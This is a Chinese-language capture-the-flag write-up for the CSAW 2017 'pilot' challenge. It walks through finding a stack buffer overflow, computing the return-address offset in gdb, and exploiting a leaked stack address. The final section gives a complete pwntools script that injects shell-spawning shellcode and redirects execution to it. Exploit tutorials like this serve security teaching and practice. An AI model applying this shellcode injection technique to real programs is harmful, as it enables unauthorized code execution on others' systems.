

# 2.6 csaw 2017 pilot
首先查看程序开启的安全机制有哪些



从上面可以看出，主要的安全机制都没有打开，运行程序：


使用IDA查看代码：


关键的地方在于read(0, &buf, 0x40uLL)，这里获取一个输入，并判断输入不能大于4

下面的这串代码中输出的是泄露的地址，是栈内存中用于输入的开始地址

```cpp
v9 = std::operator<<<std::char_traits<char>>((__int64)&std::cout, (__int64)"[*]Location:");
v10 = std::ostream::operator<<(v9, &buf);
std::ostream::operator<<(v10, std::endl<char,std::char_traits<char>>);
```


栈帧结构

RIP

RBP

...

ARGS

...

RSP

这里可以直接在IDA中计算出来，查看buf相对RBP的偏移地址为


所以直接用0x20 + 8 = 40

从IDA中可以看到，这个地址与RIP之间没有其他参数，所以我们可以使用gdb来计算buf与RIP之间的字节数，打开gdb

在read函数之后下断点：


我们在0x400ae5这里下断点

```cpp
gdb-peda$ b *0x400ae5
Breakpoint 1 at 0x400ae5
gdb-peda$ r
Starting program: /home/vuln/nightmare/modules/06-bof_shellcode/csaw17_pilot/pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffe290
[*]Command:aaaaa
[----------------------------------registers-----------------------------------]
RAX: 0x6 
RBX: 0x0 
RCX: 0x7ffff7d04f81 (<__GI___libc_read+17>: cmp    rax,0xfffffffffffff000)
RDX: 0x40 ('@')
RSI: 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
RDI: 0x0 
RBP: 0x7fffffffe2b0 --> 0x400b90 (push   r15)
RSP: 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
RIP: 0x400ae5 (cmp    rax,0x4)
R8 : 0x0 
R9 : 0x7ffff7a8ef40 (0x00007ffff7a8ef40)
R10: 0x6 
R11: 0x246 
R12: 0x4008b0 (xor    ebp,ebp)
R13: 0x7fffffffe390 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400ad8:    mov    rsi,rax
   0x400adb:    mov    edi,0x0
   0x400ae0:    call   0x400820 <read@plt>
=> 0x400ae5:    cmp    rax,0x4
   0x400ae9:    setle  al
   0x400aec:    test   al,al
   0x400aee:    je     0x400b2f
   0x400af0:    mov    esi,0x400d90
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
0008| 0x7fffffffe298 --> 0x4008b0 (xor    ebp,ebp)
0016| 0x7fffffffe2a0 --> 0x7fffffffe390 --> 0x1 
0024| 0x7fffffffe2a8 --> 0x0 
0032| 0x7fffffffe2b0 --> 0x400b90 (push   r15)
0040| 0x7fffffffe2b8 --> 0x7ffff7c1eb6b (<__libc_start_main+235>:   mov    edi,eax)
0048| 0x7fffffffe2c0 --> 0xffffffffffffff90 
0056| 0x7fffffffe2c8 --> 0x7fffffffe398 --> 0x7fffffffe623 ("/home/vuln/nightmare/modules/06-bof_shellcode/csaw17_pilot/pilot")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400ae5 in ?? ()
gdb-peda$ searchmem aaaaa
Searching for 'aaaaa' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffe2c0:
 rip = 0x400ae5; saved rip = 0x7ffff7c1eb6b
 called by frame at 0x7fffffffe380
 Arglist at 0x7fffffffe288, args: 
 Locals at 0x7fffffffe288, Previous frame's sp is 0x7fffffffe2c0
 Saved registers:
  rbp at 0x7fffffffe2b0, rip at 0x7fffffffe2b8

```
可以看到rip和buf之间的地址相差0x7fffffffe2b8 - 0x7fffffffe290 = 40，所以只要把rip的地址覆盖为location泄露的地址，而我们在泄露的地址上填上payload，就可以触发漏洞  


```cpp
from pwn import *

target = process('./pilot')

print target.recvuntil("[*]Location:")

leak = target.recvline()

inputAdr = int(leak.strip("\n"), 16)

payload = ""
# This shellcode is originally from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
# However it looks like that site is down now
# This shellcode will pop a shell when we run it
payload += "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05" 

# Padding to the return address
payload += "0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)
```